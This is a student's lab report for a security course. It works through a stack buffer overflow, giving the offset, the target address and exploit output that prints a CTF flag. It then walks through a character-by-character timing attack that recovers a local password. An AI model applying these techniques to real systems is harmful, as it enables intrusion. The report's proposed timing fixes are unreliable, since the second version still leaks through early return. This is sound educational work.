

# Report of Assignment 4

- Name: Yucong Cao
- Github Repo Link: [CaoYucong/CWM-Project](https://github.com/CaoYucong/CWM-project)

## Buffer Overflow Attacks - Hello Overflow!

### Question 1

```bash
ubuntu@ubuntu:~/CWM-project/assignment4$ cd buffer_overflow/4A && make
gcc -fno-stack-protector -z execstack -no-pie src/main.c src/util.c -o main
```

### Question 2

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/buffer_overflow/4A$ ./main 100
Target Function Ptr: 0x4011dc
Segmentation fault (core dumped)
```

### Question 3

| Offset | Observed Output                                              | Notes                                                        |
| ------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 8      | `Target Function Ptr: 0x4011dc`                              | The offset length is smaller than buffer length              |
| 24     | `Target Function Ptr: 0x4011dc`<br/>`Success! Malicious function Called!`<br/>`Segmentation fault (core dumped)` | Returning address is modified to `steal_password()` function. |
| 30     | `Target Function Ptr: 0x4011dc`<br/>`Segmentation fault (core dumped)` | Overwritten other data so a fault occurs.                    |
| 40     | `Target Function Ptr: 0x4011dc`<br/>`Segmentation fault (core dumped)` |                                                              |
| 60     | `Target Function Ptr: 0x4011dc`<br/>`Segmentation fault (core dumped)` |                                                              |

### Question 4

```
Higher addresses (toward top of address space)
+---------------------------+
|       return address      |  <-- where to go when the function returns
+---------------------------+
|       saved RBP           |  <-- caller's base pointer
+---------------------------+
|    local variables        |
+---------------------------+
|        buf[16]            |  <-- arrays live here
+---------------------------+
Writing to buf moves stack pointer UPWARDS
```

As the returning address is of 8 Bytes long, once we set the offset more than the buffer length, the date overwrites to next tile, if the offset is exactly 16 + 8 Bytes, it will exactly overwrite the returning address.

### Question 5

If the input is smaller than 16 the data shift is still within the buffering range, but if the input is larger than 16 the data shift will overwrite other functions' data, causing other function work with fault.

### Question 6

| Buf Offset | Address        | Content(hex) |
| ---------- | -------------- | ------------ |
| Buff[0]    | 0x7ffdeb679d40 | ef           |
| Buff[1]    | 0x7ffdeb679d41 | be           |
| Buff[2]    | 0x7ffdeb679d42 | ad           |
| Buff[3]    | 0x7ffdeb679d43 | de           |

It's in little Endian order, the least significant bits are stored in the front.

### Question 7

Because this function only returns when `\0` is detected, without checking whether the destination space is large enough.

We can use `strncpy()` instead.

## Buffer Overflow Attacks - Mounting Your First Attack

### Question 8

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/buffer_overflow/4B$ make
gcc -fno-stack-protector -z execstack -no-pie src/vuln.c -o src/vuln
src/vuln.c: In function ‘process_command’:
src/vuln.c:67:5: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   67 |     gets(response);  // VULNERABILITY! Using gets() instead of fgets()
      |     ^~~~
      |     fgets
/usr/bin/ld: /tmp/ccj4tLZ5.o: in function `process_command':
vuln.c:(.text+0x2a4): warning: the `gets' function is dangerous and should not be used.
```

### Question 9

```c
/* Ensure the function is present and easy to locate in the binary */
__attribute__((noinline, used))
void win(void) {
    puts("\n=====================================");
    puts("              ACCESS GRANTED         ");
    puts("=====================================");
    printf("FLAG: %s\n", FLAG);
    fflush(stdout);
    exit(0);
}
```

### Question 10

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/buffer_overflow/4B$ ./src/vuln
=====================================
    SECURE AUTHENTICATION SYSTEM    
=====================================
Welcome to the secure login system!

Username: admin
Password: secure123
Authentication successful!
Enter your name: CYC
Enter your department: Engi
Thank you CYC from Engi!
Enter system command to process: yeyeye
Processing command: yeyeye
Enter response data: eyyeye
Response processed: eyyeye
All operations completed successfully.
```

### Question 11

Obviously (from the compiling warning), the segmentation fault will occur at this function:

```c
void process_command() {
    char response[256]; // What would happen if this was declared second? Why?
    char command[128];

    printf("Enter system command to process: "); fflush(stdout);
    fgets(command, sizeof(command), stdin);
    command[strcspn(command, "\n")] = '\0';

    printf("Processing command: %s\n", command); fflush(stdout);

    // Simulate some processing
    printf("Enter response data: "); fflush(stdout);
    gets(response);  // VULNERABILITY! Using gets() instead of fgets()

    printf("Response processed: %s\n", response); fflush(stdout);
}
```

So we can try to generate a large input to attack.

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/buffer_overflow/4B$ ./src/vuln
=====================================
    SECURE AUTHENTICATION SYSTEM    
=====================================
Welcome to the secure login system!
Here is the key to attack me: ^_^ 
attackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyou

Username: admin
Password: secure123
Authentication successful!
Enter your name: cyc
Enter your department: evil dept
Thank you cyc from evil dept!
Enter system command to process: steal password
Processing command: steal password
Enter response data: attackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyou
Response processed: attackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyouattackyou
Segmentation fault (core dumped)
```

### Question 12

```bash
...
Exit code: -11
256             | -11        | CRASHED! (SIGSEGV)

[!] Potential offset found at: 256 bytes
...
```

### Question 13

```bash
Function Name             | Address      | Size     | Type
------------------------------------------------------------
...
win                       | 0x401236     | 108      | Local
...
main                      | 0x401699     | 153      | Local
...
```

```python
target_address = 0x401236 # the exact returning address for the program to 
						  # execute void win()
offset = 256			  # the number of offset to move the overwrite to exactly
						  # the returning address of the next stack. 
```

```bash
[*] Process './src/vuln' stopped with exit code 0 (pid 79645)
Response processed: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@

=====================================
              ACCESS GRANTED         
=====================================
FLAG: CTF{S3CURITY_CWM_WIN_2_EZ}

Exit code: 0
```

## Timing Attacks

### Question 14&15

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/buffer_overflow/4B$ pip install django --break-system-packages
Defaulting to user installation because normal site-packages is not writeable
Collecting django
  Downloading django-6.0.6-py3-none-any.whl.metadata (3.9 kB)
Collecting asgiref>=3.9.1 (from django)
  Downloading asgiref-3.11.1-py3-none-any.whl.metadata (9.3 kB)
Collecting sqlparse>=0.5.0 (from django)
  Downloading sqlparse-0.5.5-py3-none-any.whl.metadata (4.7 kB)
Downloading django-6.0.6-py3-none-any.whl (8.4 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 8.4/8.4 MB 56.0 MB/s eta 0:00:00
Downloading asgiref-3.11.1-py3-none-any.whl (24 kB)
Downloading sqlparse-0.5.5-py3-none-any.whl (46 kB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 46.1/46.1 kB 41.4 MB/s eta 0:00:00
Installing collected packages: sqlparse, asgiref, django
  WARNING: The script sqlformat is installed in '/home/ubuntu/.local/bin' which is not on PATH.
  Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.
  WARNING: The script django-admin is installed in '/home/ubuntu/.local/bin' which is not on PATH.
  Consider adding this directory to PATH or, if you prefer to suppress this warning, use --no-warn-script-location.
Successfully installed asgiref-3.11.1 django-6.0.6 sqlparse-0.5.5
```

### Question 16

```
root@ubuntu:/home/ubuntu/CWM-project/assignment4/side_channel# python3 manage.py runserver
Watching for file changes with StatReloader
Performing system checks...

System check identified no issues (0 silenced).
June 10, 2026 - 05:49:18
Django version 6.0.6, using settings 'app.settings'
Starting development server at http://127.0.0.1:8000/
Quit the server with CONTROL-C.

WARNING: This is a development server. Do not use it in a production setting. Use a production WSGI or ASGI server instead.
For more information on production servers see: https://docs.djangoproject.com/en/6.0/howto/deployment/
```

### Question 17



| Password Tried | Time (ms) |
| -------------- | --------- |
| 00000000       | 0.0       |
| 50000000       | 2.2       |
| 51000000       | 4.2       |
| 51900000       | 6.4       |
| 51920000       | 8.5       |
| 51926000       | 10.8      |
| 51926500       | 12.5      |
| 519265         | 12.9      |

### Question 18

```python
    ...
    for i, ch in enumerate(password):
        if i >= len(SECRET_PASSWORD) or ch != SECRET_PASSWORD[i]:
            return False
        time.sleep(DELAY_PER_CHAR)
    ...
```

The program is comparing bit-by-bit, so the more significant bits are correct, the longer it takes the program progresses to the next comparing.

### Question 19

Can start trial from the first bit, and measure from pressing enter to the output of "Invalid credentials". If the time grows, we have the correct first bit, then progress to the next bit, until we get the password.

### Question 20

| Password Tried | Time (ms) |
| -------------- | --------- |
| 0              | 0.0       |
| 1              | 0.0       |
| 2              | 0.0       |
| 3              | 0.0       |
| 4              | 0.0       |
| 5              | 2.2       |
| 6              | O.o       |
| 7              | O.0       |
| 8              | o.0       |
| 9              | 0.O       |

### Question 21

As mentioned before, if the password bit is correct, the process time will be longer. In this case, it's 5.

### Question 22

| Password Tried | Time (ms) |
| -------------- | --------- |
| 50             | 2.1       |
| 51             | 4.2       |
| 52             | 2.2       |
| 53             | 2.2       |
| 54             | 2.2       |
| 55             | 2.2       |
| 56             | 2.2       |
| 57             | 2.2       |
| 58             | 2.0       |
| 59             | 2.1       |

The next bit is 51.

### Question 23, 24&25

```bash
ubuntu@ubuntu:~/CWM-project/assignment4/side_channel$ python3 attack.py 
  'a'                  2.0 ms
  'b'                  1.8 ms
  'c'                  1.7 ms
  'd'                  1.7 ms
  'e'                  1.8 ms
  'f'                  1.7 ms
  'g'                  2.1 ms
  'h'                  1.7 ms
  'i'                  1.8 ms
  'j'                  1.7 ms
  'k'                  1.7 ms
  'l'                  1.8 ms
  'm'                  1.7 ms
  'n'                  1.8 ms
  'o'                  1.7 ms
  'p'                  1.8 ms
  'q'                  1.7 ms
  'r'                  1.8 ms
  's'                  1.7 ms
  't'                  1.8 ms
  'u'                  1.7 ms
  'v'                  1.8 ms
  'w'                  1.6 ms
  'x'                  1.9 ms
  'y'                  1.7 ms
  'z'                  1.8 ms
  '0'                  1.7 ms
  '1'                  1.7 ms
  '2'                  1.7 ms
  '3'                  1.8 ms
  '4'                  1.7 ms
  '5'                  3.9 ms <--- Longest response time
  '6'                  1.7 ms
  '7'                  1.8 ms
  '8'                  1.7 ms
  '9'                  1.7 ms

[+] prefix so far: '5'

  ...
  '50'                 3.8 ms
  '51'                 6.1 ms <--- Longest response time
  '52'                 3.9 ms
  ...

[+] prefix so far: '51'

  ...

[+] prefix so far: '519'

  ...

[+] prefix so far: '5192'

  ...

[+] prefix so far: '51926'

  ...
  '519264'             12.6 ms
  '519265'             14.7 ms <--- Longest response time
  '519266'             12.6 ms
  ...

[+] prefix so far: '519265'

[*] Password cracked: '519265'

...
    <div class="result ok">
      <p>Access granted. Flag: <strong>CWM{t1m1ng_1s_3v3ryth1ng}</strong></p>
      <p>Check took: <span class="time">12.7 ms</span></p>
    </div>
...
```

### Question 26

The most important change is not return immediately when finding a mismatch, instead, set up a flag, finish comparing all the time, then return. Then the process time is only relevant to the length of user input. Adding a random sleep delay will also introduce an uncertainty, but not necessary.

```python
def _vulnerable_check(username: str, password: str) -> bool:
    """
    Intentionally vulnerable password check.
    Iterates character by character and sleeps on each match,
    leaking how many leading characters of the guess are correct.
    """
    if username != SECRET_USERNAME:
        return False
    
    flag = True
    for i, ch in enumerate(password):
        if i >= len(SECRET_PASSWORD) or ch != SECRET_PASSWORD[i]:
            flag = False
        random_sleep = np.random.rand() / 1000
        time.sleep(random_sleep)
    if flag == False:
        return False
    else:
        return len(password) == len(SECRET_PASSWORD)
```

Another concern is that the attacker would still be able to find out that the password is verified bit-by-bit. We can modify the code like this:

```python
def _vulnerable_check(username: str, password: str) -> bool:
    """
    Intentionally vulnerable password check.
    Iterates character by character and sleeps on each match,
    leaking how many leading characters of the guess are correct.
    """
    if username != SECRET_USERNAME:
        return False

    for i, ch in enumerate(password):
        if i >= len(SECRET_PASSWORD) or ch != SECRET_PASSWORD[i]:
            random_sleep = np.random.rand() / 10
            time.sleep(random_sleep)
            return False
        time.sleep(DELAY_PER_CHAR)
    
    random_sleep = np.random.rand() / 10
    return len(password) == len(SECRET_PASSWORD)
```

By introducing a large random delay, this will make the system completely a black box, the process will no longer be relevant to the input length.

### Question 27

We shouldn't trust an API without having a look at the document about the implementation of the algorithms, or even the source code, to find any threat that may cause failure/security hazard.